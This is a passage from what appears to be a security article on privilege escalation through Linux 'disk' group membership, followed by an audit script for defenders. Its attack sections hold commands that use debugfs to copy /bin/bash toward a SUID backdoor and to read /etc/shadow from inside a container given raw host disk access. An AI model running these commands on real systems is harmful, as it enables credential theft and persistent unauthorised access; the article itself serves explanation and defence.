 Attackers can also write to the file system to install persistent access:

```bash
# Create a SUID binary for persistent access
# First, extract the current /bin/bash
debugfs -R 'dump /bin/bash /tmp/bash_backup' /dev/sda1

# This requires more sophisticated techniques for writing back to the file system
# Generally involves understanding ext4 structure and using dd commands
```

### Attack Vector 4: Container Escape Scenarios

In containerized environments, disk group access can lead to container escape:

```bash
# If containers are run with --device=/dev/sda:/dev/sda
# The container can access the host file system
docker run -it --device=/dev/sda:/dev/sda ubuntu:latest

# Inside the container:
debugfs -R 'cat /etc/shadow' /dev/sda
```

## Comprehensive Defense Strategies

Defending against disk group vulnerabilities requires a multi-layered approach:

### 1. Group Membership Auditing

Regularly audit and clean up group memberships:

```bash
#!/bin/bash
# audit_disk_group.sh - Audit disk group membership

echo "=== Disk Group Membership Audit ==="
echo "Current members of the disk group:"
getent group disk

echo -e "\n=== Checking for unusual group memberships ==="
# Check for non-system users in sensitive groups
for group in disk root shadow; do
    echo "Group: $group"
    members=$(getent group $group | cut -d: -f4)
    if [ -n "$members" ]; then
        for user in $(echo $members | tr ',' ' '); do
            uid=$(id -u $user 2>/dev/null)
            if [ $? -eq 0 ] && [ $uid -ge 1000 ]; then
                echo "  WARNING: Regular user $user in $group group"
            fi
        done
    fi
done

echo -e "\n=== Checking for users with direct disk access ==="
find /dev -type b -exec ls -la {} \; | grep -v "root root" | grep -v "root disk"
```
